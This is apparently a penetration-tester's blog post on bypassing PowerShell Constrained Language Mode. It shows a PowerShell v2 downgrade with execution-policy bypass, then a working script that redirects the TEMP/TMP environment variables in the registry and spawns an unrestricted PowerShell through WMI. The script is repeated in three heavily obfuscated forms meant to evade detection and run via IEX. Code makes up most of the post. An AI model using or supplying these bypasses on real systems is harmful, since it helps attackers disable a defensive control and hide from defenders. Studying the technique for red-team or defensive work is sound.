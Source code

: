 ```yaml
---
title:  "CLM Bypass"
date:   2021-10-17 19:12:00 +0000
categories: [techniques]
tags: [windows, powershell, bypass]
---
```


It is common during engagements to find that CLM (Constrained Language Mode) is configured on PowerShell as a SafeGuard or control against malicous activity.
This is a common misconception as there are many ways that CLM can be bypassed.
First check that CLM is in place by executing the following:

```
$ExecutionContext.SessionState.LanguageMode
```

If you want to set the Session to CLM from Full for testing then run the following however be aware that spawning a new session would spawn in full mode regardless if this is the default on your system.
I will leave it to the reader to do this.

```
$ExecutionContext.SessionState.LanguageMode = "ConstrainedLanguage"
```

Firstly, the most common way to bypass CLM is to simply downgrade to PowerShell version 2 if it is installed. You can do this by appending the '-version 2' argument.


```
powershell.exe -version 2
```

If you want to bypass the execution policy then append the following:

```
powershell.exe -version 2 -ExecutionPolicy bypass
```

Although this will likely work if PowerShell version 2 is installed alot of tools may not work to their full potential or simply not fit into your requirements using the legacy version.

There are tools out there to help ofcourse, these are usually execuable files which will touch disk and may not suit your needs.

The following method can be simply pasted into a PowerShell window and a new PowerShell session is spawned as either the current PowerShell Version, or if needed, you could change the version to any other (2,3,4,5,6,7)

Below is an example of bypassing CLM when Constrained Language mode is enabled by default.

![img-description](/videos/CLM-Bypass-2.gif)
_executing the script_

CLM Bypass Default
------------------

```
$CurrTemp = $env:temp
$CurrTmp = $env:tmp
$TEMPBypassPath = "C:\windows\temp"
$TMPBypassPath = "C:\windows\temp"

Set-ItemProperty -Path 'hkcu:\Environment' -Name Tmp -Value "$TEMPBypassPath"
Set-ItemProperty -Path 'hkcu:\Environment' -Name Temp -Value "$TMPBypassPath"

Invoke-WmiMethod -Class win32_process -Name create -ArgumentList "Powershell.exe"
sleep 5

#Set it back
Set-ItemProperty -Path 'hkcu:\Environment' -Name Tmp -Value $CurrTmp
Set-ItemProperty -Path 'hkcu:\Environment' -Name Temp -Value $CurrTemp
```

Or if you want to change the PowerShell version then simply add the arguments needed such the below:

PowerShell Specific Version
---------------------------

```
$CurrTemp = $env:temp
$CurrTmp = $env:tmp
$TEMPBypassPath = "C:\windows\temp"
$TMPBypassPath = "C:\windows\temp"

Set-ItemProperty -Path 'hkcu:\Environment' -Name Tmp -Value "$TEMPBypassPath"
Set-ItemProperty -Path 'hkcu:\Environment' -Name Temp -Value "$TMPBypassPath"

Invoke-WmiMethod -Class win32_process -Name create -ArgumentList "Powershell.exe -Version 2 -ExecutionPolicy bypass"
sleep 5

#Set it back
Set-ItemProperty -Path 'hkcu:\Environment' -Name Tmp -Value $CurrTmp
Set-ItemProperty -Path 'hkcu:\Environment' -Name Temp -Value $CurrTemp
```

Token Based Obfuscated
----------------------

```
${C`U`RrtEmP} = ${enV:T`e`Mp}
${CUrRT`MP} = ${ENv:`T`mp}
${temp`B`YpAs`SPaTH} = ((("{0}{5}{3}{4}{1}{2}" -f 'C','wsYyKte','mp','Kw','indo',':Yy')) -RePlACe  'YyK',[cHar]92)
${TmPb`ypa`Ssp`Ath} = ((("{0}{1}{2}{3}" -f 'C:{0','}windows{','0}te','mp')) -F [cHAr]92)

&("{2}{1}{3}{0}"-f 'y','emPr','Set-It','opert') -Path ((("{0}{1}{2}{4}{3}"-f 'hkcu:','{0','}','ment','Environ'))-f [char]92) -Name ("{0}{1}"-f'T','mp') -Value "$TEMPBypassPath"
.("{3}{2}{4}{1}{0}"-f 'roperty','P','-It','Set','em') -Path ((("{0}{5}{6}{1}{3}{2}{4}"-f 'hk','NAtE','viro','n','nment','cu',':')) -creplacE'NAt',[cHAR]92) -Name ("{0}{1}"-f 'T','emp') -Value "$TMPBypassPath"

&("{0}{2}{4}{1}{3}" -f'In','Me','voke-W','thod','mi') -Class ("{2}{0}{3}{4}{1}"-f'i','s','w','n32_proce','s') -Name ("{0}{1}"-f'crea','te') -ArgumentList ("{3}{4}{1}{2}{0}" -f'l.exe','e','l','Powe','rsh')
&("{1}{0}" -f'eep','sl') 5


.("{2}{1}{0}{4}{3}"-f 'emPro','et-It','S','ty','per') -Path ((("{1}{2}{3}{0}{5}{4}"-f 'v','hk','cu:A','YlEn','nt','ironme')) -repLaCE ([cHAr]65+[cHAr]89+[cHAr]108),[cHAr]92) -Name ("{0}{1}"-f'T','mp') -Value ${cuRr`TMP}
.("{1}{0}{2}{3}"-f 'emPr','Set-It','opert','y') -Path ((("{2}{4}{3}{0}{1}"-f 'vironm','ent','hk','n','cu:4XQE')) -CREPLacE '4XQ',[cHar]92) -Name ("{1}{0}" -f 'emp','T') -Value ${cURr`T`Emp}
```

Reverse String Obfuscated
-------------------------

```
$0wN5  =  ")'x'+]31[diLLEHs$+]1[dIlLehS$ (&|)43]RaHC[,63]RaHC[,93]RaHC[,29]RaHC[  f-)'pmeTrr'+'uC}2{ eulaV- '+'p'+'m'+'e'+'T e'+'m'+'aN- }1{tn'+'emn'+'orivnE}0{'+':'+'uc'+'k'+'h'+'}'+'1{ htaP'+'-'+' y'+'tre'+'porPm'+'et'+'I'+'-'+'teS

p'+'mTrr'+'uC}2{ eula'+'V'+'- '+'pmT '+'emaN- }1{tnem'+'norivnE}'+'0{:uck'+'h}1{ htaP'+'- '+'ytrep'+'orPm'+'etI-teS'+'

kc'+'a'+'b t'+'i te'+'S'+'#
'+'

5'+' pe'+'els

'+'}3{e'+'x'+'e.ll'+'e'+'h'+'srew'+'oP}3{ tsiLtne'+'m'+'ug'+'rA- e'+'taerc '+'emaN-'+' '+'ssec'+'orp_23'+'n'+'iw'+' ss'+'a'+'lC-'+' d'+'ohte'+'MimW-e'+'k'+'o'+'vnI
'+'

}'+'3{h'+'taPs'+'sapyBPMT}'+'2{}3{'+' eulaV- pm'+'e'+'T e'+'maN'+'- '+'}'+'1{t'+'nem'+'nori'+'vnE}0'+'{:uck'+'h}1'+'{ '+'hta'+'P- y'+'trep'+'orPm'+'e'+'t'+'I'+'-teS'+'

}'+'3'+'{hta'+'P'+'s'+'s'+'ap'+'yBPMET}2{}3{ e'+'ula'+'V-'+' pmT'+' e'+'maN-'+' '+'}1'+'{tne'+'mn'+'orivnE'+'}0{:uckh}1{ htaP- '+'y'+'t'+'r'+'e'+'po'+'r'+'Pmet'+'I-'+'t'+'eS'+'


}3{p'+'m'+'et'+'}'+'0'+'{swod'+'n'+'i'+'w}0'+'{:C}3{ ='+' h'+'ta'+'Pssap'+'y'+'BPMT}'+'2{'+'

'+'}'+'3'+'{'+'pmet}0{'+'swodniw}0'+'{:'+'C}3{ '+'= h'+'taPs'+'sa'+'pyBPM'+'ET'+'}2{'+'

'+'pm'+'t:vne'+'}2'+'{ '+'='+' pmT'+'rruC}'+'2'+'{

pme'+'t:vne}2{'+' ='+' p'+'me'+'Trr'+'uC'+'}2{'(( ";.( $Env:coMSPeC[4,24,25]-jOIn'') ( "$( sv 'OFS' '' ) " +[STrIng]( (  gEt-VaRiAbLe  ("0w"+"N5") ).vAlue[-1 ..-((  gEt-VaRiAbLe  ("0w"+"N5") ).vAlue.lENGth )]) +"$(set  'ofs'  ' ' ) ")
```

Obfuscated String Reorder
-------------------------

```
(("{80}{106}{34}{40}{49}{45}{120}{29}{125}{124}{65}{87}{90}{70}{110}{41}{71}{112}{118}{96}{69}{8}{82}{103}{122}{119}{21}{14}{117}{5}{51}{55}{24}{94}{95}{83}{98}{88}{84}{53}{105}{99}{6}{31}{73}{32}{33}{77}{78}{23}{50}{48}{17}{109}{25}{111}{9}{100}{115}{104}{97}{37}{62}{102}{63}{75}{1}{22}{93}{66}{27}{57}{7}{44}{4}{38}{56}{26}{60}{30}{101}{13}{18}{52}{10}{114}{68}{3}{43}{86}{19}{15}{92}{108}{89}{59}{12}{76}{20}{123}{81}{46}{0}{35}{107}{16}{58}{36}{116}{113}{47}{61}{74}{72}{85}{67}{121}{54}{42}{79}{64}{2}{39}{28}{11}{91}"-f'1 -Nam','l',' -Value ','

#S','lass w','hTMPB','v','nvoke-WmiMeth','C:A','Path','hell.exefkI','rr','kcu:AZM','I','kI
4','Property -','rrTm','assP','Pow','tem','viron','tempf','ue fkI45hTMPB',' fkI4','=','-ItemPr','ocess -N','I
','hCu','env:t','-Argume','ir','-N','a','em','e Tmp -V','Se','ntMW','in32','45','p','
45hT',' ','et it ba','od -C',' 45','W','rope','EMPByp',' =','5hT','ypassPa','ers','emProperty -Path ','tMW1','th ','_pr','

I','p
','MW1h','ame create ','r','1 -N','emp -','emp','rrTm','Pathfk','cu:',' 5','I',':tm','EMPBy','1h','onmentMW1 ','ty -Path MW','Va','En','me Tmp -','Value','-Name T','45','tM','Z','Mwi','
Set-It','k','ck
Set-I','p = 45he','

','h ','nv','Temp','P','ypass',' fkIC:A','Z','th = fk','ronme','ndowsAZMtempfkI
','1hkcu:AZMEn',' ','ntList fk','ame T','Mwi','vi','MW','hCurrT','alue 45hCu','at','athfkI
Set','p
','operty -','p','mP','
sleep','MW1hkcu:AZMEn','t-Ite','5','assPa','sAZM','h','AZMEnvironmen','ndow','men','hCu','emp
45')).ReplaCE('MW1',[STRiNg][CHAR]39).ReplaCE('fkI',[STRiNg][CHAR]34).ReplaCE('45h','$').ReplaCE(([CHAR]65+[CHAR]90+[CHAR]77),'\') |& ( $pshoMe[4]+$pSHOme[34]+'X')
```

